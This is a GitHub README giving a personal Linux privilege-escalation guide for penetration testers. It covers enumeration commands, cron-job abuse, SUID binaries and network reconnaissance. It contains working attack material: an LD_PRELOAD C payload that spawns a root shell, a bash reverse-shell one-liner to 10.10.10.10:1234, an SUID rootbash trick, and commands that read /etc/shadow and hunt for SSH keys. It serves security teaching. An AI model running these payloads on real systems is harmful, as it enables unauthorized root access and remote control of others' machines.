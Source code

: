 # Linux-PrivEsc-full-guide

Hi Folks! I made this repo that share the privilege escalation techniques I tend to use on Linux systems. At the moment, you will see basic stuff which works the best IRL but later I am going to add CTF specific techniques. Let's get into it!

# Enumeration

So, one of the your target company's users downloaded and executed a malicious file you happened to send them. You found credentials in clear text and connected back to the machine using SSH. What's the first thing you do? Identify where the hell are you and what you can do at this point of the engagement. For that I use the following commands:

## Some basic enumeration and easy wins
```sh
cat ~/.*history | less             # identify previously executed commands in the shell
whoami                             # enumerate the user
id                                 # enumerate the user
cat /etc/{passwd,shadow,group}     # check if we can see the stored passwords, users, groups
ls -l /etc/{shadow,passwd}         # check if we can write into the previously mentioned files
cat /etc/{passwd,group}            # same but without shadow (usually 'Permission denied')
ps aux | grep --ignore-case root   # see unusual processes and processes run by the root user
ls -l /.ssh                        # look for SSH keys, that you can download and connect back
locate "/*.ovpn"                   # identify vpn files that could help you pivot
find . -type f -iname "*vpn*"      # same just with the find command
```

## Further enumeration of the system, kernel version, errors..etc
```sh
hostname
hostname --all-{fqdns,ip-addresses}
uname --kernel-{name,release,version}
uname --all
lscpu

cat /proc/{version,issue}
cat /etc/os-release

# for modules
lsmod
lsmod | cut -d ' ' -f 1 | sort --unique

# oneliner: outputs errors(e.g the usual shadow permission denied) to file `err`
cat {/proc/{version,issue},/etc/{passwd,shadow,group,os-release}} 2>err

sudo -l                            # to check which commands I can run as a super user without the password
```

Sudo -l is the first thing you execute after gaining a foothold, you can have some easy wins with that. After checking the output go to https://gtfobins.github.io/ and note down, the binaries which are present on the system and can be executed with the sudo command without knowing the pass.

After executing `sudo -l` check the value of LD_PRELOAD, \
if you see something like this: `env_keep += LD_PRELOAD` - Than you can use the following little `C src` to gain root access:

### C Source code

in.c

```c
/*
 * author: An00bis
 * file: in.c
 */

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

### Compilation
Usually, gcc is by default installed on most* systems.
We can compile it with `gcc -o out.elf in.c`
which takes `in.c` (our c source) 
and outputs `out.elf` (a executable) \
to run it: `./out.elf`


# Cron Jobs

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.
```
cat /etc/crontab                      # check for cron jobs
locate example.sh                     # Find from where the file executes
ls -l /usr/local/bin/example.sh       # check if the file is world-writable

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/1234 0>&1  # Overwrite the file with this simple one-liner, open up a listening port on 1234 and wait for the call-back
```
```
cat /etc/crontab                      # check for cron jobs, look for the PATH variable

Here I will leave an example: /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin. In this case the PATH variable is /home/user, we are going to invoke a shell here with root priviliges.

Create a file with the following content:


#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash


chmod +x /home/user/example.sh        # make the file executable and wait a minute or two
/tmp/rootbash -p                      # invoke the shell with the following command, the -p switch maintains the permission of the owner.
```
```
cat /usr/local/bin/example.sh         # check the content of a cronjob and look for wildcards (*)
```
Check gtfobins for exploitation methods and use them. You can find a lot of things, but the basic idea is that you trick the program to think that the commands thar are going to be executed are part of it's features. This way you can gain trick the binary to rain a metasploit reverse-shell, execute additional commands or to simply elevate you to root.


# Network enumeration

```sh
ifconfig   # to see network interfaces, ip addresses..etc
ip a       # alternative for ifconfig
ip -c a    # output in color
arp -a     # check to ARP table and discover additional assets on the subnet
ip neigh   # alternative for the arp command
ip route   # check the route table and discover gateways, additional IPs
netstat    # to see active connections

wireshark                                 # The network traffic analyzer - Wireshark
tcpdump -i <interface> -s 65535 -w <file> # The command-line network traffic analyzer - TCPDump
```

## Try to sniff traffic, it's less noisy and you have more data to work with during the engagement

# SUID / GUID binaries

The flags setuid and setgid are needed for tasks that require different privileges than what the user is normally granted, such as the ability to alter system files or databases to change their login password. When the setuid or setgid attributes are set on an executable file, then any users able to execute the file will automatically execute the file with the privileges of the file's owner (commonly root) and/or the file's group, depending upon the flags set. I highly suggest to you to do your research on this topic because I can't cover everything in a single gitHub post.


```sh

# Identify files where both
# the setuid and setgid flags are set
find . -perm /6000

# same just with a different command
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

# Look for public exploits using
# Google, Exploit-db, Yandex...etc

# strace
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"          

# Use this commands on the binary to see the objects it's trying to load,
# try to overwrite objects with a reverse-shell to gain root access.

strings /usr/local/bin/example

# From the strings output check the paths,
# from where the other executables are called.
# Try to overwrite them with a simple bash shell,
# add the route to the PATH variable and execute the file.

PATH=.:$PATH /usr/local/bin/example
./example
```

# Before finishing

This is just quick overview of this topic, as you can see, most of the time we overwrite files, abuse call functions and use public exploits to elevate our priviliges but with a little creativity you can do so much more. :)

If permitted use automatization tools to not lose too much time on this part of the penetration testing process:

* https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
* https://github.com/The-Z-Labs/linux-exploit-suggester

Resources to help you understand better the privilige escalation process:

* https://www.udemy.com/course/linux-privilege-escalation/?referralCode=0B0B7AA1E52B4B7F4C06
* https://tryhackme.com/room/linuxprivescarena
* https://tryhackme.com/room/linuxprivesc
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md




